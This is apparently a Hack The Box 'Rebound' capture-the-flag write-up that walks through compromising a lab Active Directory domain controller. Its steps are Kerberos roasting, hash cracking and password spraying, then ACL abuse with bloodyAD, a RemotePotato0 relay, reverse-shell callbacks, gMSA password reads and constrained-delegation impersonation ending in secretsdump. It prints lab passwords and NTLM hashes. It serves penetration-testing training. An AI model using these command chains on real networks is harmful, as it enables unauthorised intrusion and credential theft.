


---
---

# HTB - Rebound

NMAP


Add rebound.htb to /etc/hosts

```bash
enum4linux -u "guest" -a rebound.htb

```


Connect to /Shared - but it's empty:


- Enumerate domain users with kerbrute and CME:
```bash
./kerbrute userenum --dc 10.129.229.114 -d rebound.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

```


```bash
crackmapexec smb rebound.htb -u "guest" -p "" --rid-brute 10000

```


```bash
cat valid_users.txt | cut -d "\\" -f 2 | cut -d "(" -f 1 > valid_users

```
- jjones - Require PreAuth not set:
```bash
impacket-GetNPUsers rebound.htb/ -users valid_users -no-pass -dc-ip rebound.htb

```


```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```


If you get this error:


```bash
sudo ntpdate -u rebound.htb && sudo hwclock --systohc

```


OR use:

```bash
sudo faketime -f +7h <command>

sudo faketime -f +7h impacket-GetUserSPNs -target-domain rebound.htb -usersfilevalid_users -dc-ip rebound.htb rebound.htb/guest -no-pass

```
- Get Service hashes:
```bash
impacket-GetUserSPNs -target-domain rebound.htb -usersfilevalid_users -dc-ip rebound.htb rebound.htb/guest -no-pass

```


- Got hashes for:

\$krb5tgs\$18\$krbtgt\$REBOUND.HTB\$\***krbtgt**\*

\$krb5tgs\$18\$DC01\$\$REBOUND.HTB\$\***DC01\$**\*

\$krb5tgs\$23\$\*ldap_monitor\$REBOUND.HTB\$**ldap_monitor**\*

\$krb5tgs\$18\$delegator\$\$REBOUND.HTB\$\***delegator\$**\*

- For **\$krb5tgs\$18\$**:
```bash
hashcat -m 19700 -a 0 hash_file18 /usr/share/wordlists/rockyou.txt

```
- For **\$krb5tgs\$23\$**:
```bash
hashcat -m 13100 -a 0 hash_file23 /usr/share/wordlists/rockyou.txt

```


- Got credentials:
**ldap_monitor : 1GR8t@\$\$4u**




- Password Spray:
```bash
./kerbrute passwordspray valid_users '1GR8t@\$\$4u' --dc rebound.htb -d rebound.htb

```


**\*Make sure the username file doesn't have spaces after each name:**


- Got credentials from password spraying:
**oorend : 1GR8t@\$\$4u**

<https://github.com/CravateRouge/bloodyAD>

<https://github.com/CravateRouge/bloodyAD/wiki/User-Guide>

- We have a group called ServiceMgmt and we have a service account that can use winrm to remotely connect:


- Using bloodyAD to see the groups ACL's:
```bash
python bloodyAD.py -u oorend -d rebound.htb -p '1GR8t@\$\$4u' --host rebound.htb get object ServiceMgmt --resolve-sd

```


nTSecurityDescriptor.ACL.2.Type: == ALLOWED ==

nTSecurityDescriptor.ACL.2.Trustee: oorend

nTSecurityDescriptor.ACL.2.Right: WRITE_VALIDATED

nTSecurityDescriptor.ACL.2.ObjectType: Self

"WRITE_VALIDATED to Self" here, means oorend can make changes concerning themselves in relation to the ServiceMgmt group - possibly adding themselves to the group.

- We can try and add ourselves to the ServiceMgmt group:
```bash
python bloodyAD.py -u oorend -p '1GR8t@\$\$4u' -d rebound.htb --host rebound.htb add groupMember SERVICEMGMT oorend

```


OR

```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@\$\$4u' --host rebound.htb add groupMember 'CN=SERVICEMGMT,CN=USERS,DC=REBOUND,DC=HTB' "CN=oorend,CN=Users,DC=rebound,DC=htb"

```
- We can check with:


- Now that we are in the group - we can look into winrm_svc:
```bash
python bloodyAD.py -u oorend -d rebound.htb -p '1GR8t@\$\$4u' --host rebound.htb get object winrm_svc

```


Winrm_svc is part of the OU=Service Users

- Since we are now part of the ServiceMgmt group - we can change the permissions for the Service Users OU
```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@\$\$4u' --host rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

```


- We now have FULL CONTROL over the OU and the objects inside the OU, ie. winrm_svc. So we can change winrm_svc password:
```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@\$\$4u' --host rebound.htb set password winrm_svc 'Password1!'

```


- We can now log in using evil-winrm:
```bash
evil-winrm -i rebound.htb -u winrm_svc -p Password1!

```



(These steps need to be done in quick succession, otherwise the user gets removed from ServiceMgmt group)

```bash
cat user.txt

```
- Upload Sharphound (new)
```bash
.\SharpHound.exe -c all

.\SharpHound.exe -c DCOnly

```
- Run the new BloodHound and import

- Using a custom query - To find users who have logged in very recently (and might still be active)
<https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/>


We find Tbrady and Administrator - and they just logged on/ might still be logged in

**<u>RemotePotato0</u>**

- We can leverage an exploit called **RemotePotato** to steal the hash of a logged in user
<https://github.com/antonioCoco/RemotePotato0>


- On Kali - Set up:
```bash
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.169.100:9999 &&

sudo python3 impacket-ntlmrelayx -t ldap://10.129.169.100 --no-wcf-server --escalate-user winrm_svc

```


- On the victim:
```bash
./RemotePotato0.exe -m 2 -r 10.10.14.23 -x 10.10.14.23 -p 9999

```


- Crack with hashcat:
```bash
hashcat -m 5600 hash_brady /usr/share/wordlists/rockyou.txt

```


- Upload RunasCs.exe and run:
```bash
.\RunasCs.exe tbrady 543BOMBOMBUNmanda cmd.exe -r 10.10.14.23:8888

```


- Set up listener:


- Checking for Constrained Delegation vulnerabilities:

Upload PowerView.ps1

```powershell
. ./PowerView.ps1

Get-DomainComputer -TrustedToAuth

```


- **The delegator GMSA has constrained delegation configured over the DC**


- Query delegator\$ to see its ACL's:
```bash
./bloodyAD.py -d rebound.htb -u tbrady -p '543BOMBOMBUNmanda' --host dc01.rebound.htb get object 'delegator\$' --resolve-sd

```


We can see that tbrady has GENERIC_ALL on this account

- **Get the GMSA password:**
```bash
./bloodyAD.py -d rebound.htb -u tbrady -p '543BOMBOMBUNmanda' --host dc01.rebound.htb get object 'delegator\$' --resolve-sd --attr msDS-ManagedPassword

```


NTLM hash: **aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524**

- This is a good article to read for RBCD:
<https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a>

```bash
impacket-getTGT 'rebound.htb/delegator\$@dc01.rebound.htb' -hashes aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524 -dc-ip 10.129.169.100

```


```bash
export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache

```


- Make sure that /etc/hosts only contains the following:


Comment out rebound.htb if you have it

And add **dc01.rebound.htb** and **dc01**


(any localhost stuff is obviously fine)

If you don't have it like this you WILL get the error:

**\[-\] invalid server address**

- In order for RBCD to work it needs the **msDS-AllowedToActOnBehalfOfOtherIdentity** property
Impacket-rbcd is a python script for handling the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer

```bash
impacket-rbcd 'rebound.htb/delegator\$' -k -no-pass -delegate-from ldap_monitor -delegate-to 'delegator\$' -action write -use-ldaps -dc-ip 10.129.169.100 -debug

```


- Unset the env variable:
```bash
unset KRB5CCNAME
```

- Once the attribute has been modified, getST can then perform all the necessary steps to obtain the final "impersonating" Service Ticket:

From BloodHound, we can see the SPN to use for delegate\$


```bash
impacket-getST -spn "browser/dc01.rebound.htb" -impersonate "dc01$" 'rebound.htb/ldap_monitor:1GR8t@\$\$4u' -dc-ip 10.129.169.100

```


```bash
export KRB5CCNAME=dc01\\.ccache

```


```bash
impacket-getST -spn "http/dc01.rebound.htb" -impersonate "dc01$" -additional-ticket "dc01$.ccache" "rebound.htb/delegator$" -hashes aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524 -k -no-pass -dc-ip 10.129.34.86

```


```bash
impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user administrator -dc-ip 10.129.34.86

```


```bash
impacket-wmiexec -hashes :176be138594933bb67db3b2572fc91b8 rebound.htb/administrator@dc01.rebound.htb

```


